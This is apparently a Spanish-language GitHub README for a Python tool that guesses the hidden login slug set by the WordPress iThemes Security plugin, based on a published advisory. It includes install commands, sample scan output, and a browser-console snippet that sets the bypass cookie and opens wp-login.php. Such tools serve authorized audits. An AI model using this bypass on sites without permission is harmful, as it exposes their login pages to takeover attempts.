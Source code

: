 # 🔓 Bypass_iThemesSecurity

Herramienta de detección y explotación de slugs ocultos generados por el plugin **iThemes Security** en instalaciones WordPress mal configuradas o desactualizadas.

> ⚠️ Basada en la vulnerabilidad documentada en:  
> [WPScan Advisory - iThemes Security <= 8.1.2](https://wpscan.com/vulnerability/42fdb534-3aef-4ed7-94a8-4cfe8ff977e1)

---

## 🧠 ¿Qué hace esta herramienta?

`Bypass_iThemesSecurity` automatiza la detección de tokens (`slugs`) ocultos usados por iThemes Security para mover el acceso al panel de login de WordPress (`wp-login.php`). Si el sitio está desactualizado o mal configurado, esta herramienta puede encontrar ese slug y permitir el **bypass completo** del ocultamiento.

---

## 🎯 Casos de uso

- Red Teams y Pentesters que necesiten evadir plugins de ocultamiento de login.
- Auditores de seguridad en entornos WordPress.
- Investigadores de seguridad interesados en fingerprinting de instalaciones WordPress.
- Cazadores de bugs que validan configuraciones erróneas.

---

## 🚀 Requisitos

- Python 3.7+
- Librerías:
  - `requests`
  - `beautifulsoup4`
  - `rich`
  - `pyfiglet`

## 📥 Instalación

### 1. Clonar el repositorio

```bash
git clone https://github.com/AndreewNR/Bypass_iThemesSecurity.git
cd Bypass_iThemesSecurity
```

### 2. Instalar dependencias

```bash
pip install -r requirements.txt
```

## ⚙️ Uso

Ejecuta la herramienta con:

```bash
python main.py
```

### 🧪 Ejemplo de uso

[+] Ingresa la URL objetivo (sin / al final): https://tudominio.com

🔍 Iniciando escaneo de slugs ocultos en: https://tudominio.com

🔄 Probando slug: 6bcbbd3fc2
🔄 Probando slug: loginadmin
🔄 Probando slug: abc123...

✅ ¡Bypass exitoso! Slug válido: loginadmin
🔗 Accede directamente: https://tudominio.com/wp-login.php

### 🍪 ¿Y si quieres probar el bypass manualmente?

Puedes simular el bypass en el navegador usando cookies. Si la herramienta detecta un slug válido y entrega cookies, puedes abrir la consola de tu navegador (F12) y ejecutar:
```bash
document.cookie = "itsec-hb-token=loginadmin";
window.location.href = "/wp-login.php";
```

### ⚠️ Descargo de responsabilidad
Esta herramienta es solo para fines educativos y auditorías autorizadas.
El uso no ético o en sistemas sin permiso explícito podría violar leyes locales.
`Autores y colaboradores no se hacen responsables del uso indebido de este software.`

